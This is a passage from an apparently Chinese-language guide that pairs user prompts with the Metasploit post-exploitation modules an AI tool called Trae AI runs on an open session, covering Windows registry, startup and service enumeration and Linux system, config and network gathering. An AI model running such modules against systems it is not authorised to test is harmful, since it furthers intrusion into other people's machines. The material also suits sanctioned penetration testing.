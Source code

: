 ### 5. 註冊表分析

**用戶提問：**
```
分析 Windows 註冊表中的敏感信息
```

**Trae AI 操作流程：**
```
# 枚舉已安裝的應用程序
use post/windows/gather/enum_applications
set SESSION 1
run

# 檢查自啟動項
use post/windows/gather/enum_startup_programs
set SESSION 1
run

# 枚舉服務
use post/windows/gather/enum_services
set SESSION 1
run
```

## Linux 系統後滲透

### 6. Linux 系統信息收集

**用戶提問：**
```
收集 Linux 目標系統的詳細信息
```

**Trae AI 操作流程：**
```
# Linux 系統枚舉
use post/linux/gather/enum_system
set SESSION 1
run

# 檢查系統配置
use post/linux/gather/enum_configs
set SESSION 1
run

# 枚舉網絡信息
use post/linux/gather/enum_network
set SESSION 1
run
```

### 7. Linux 用戶和權限

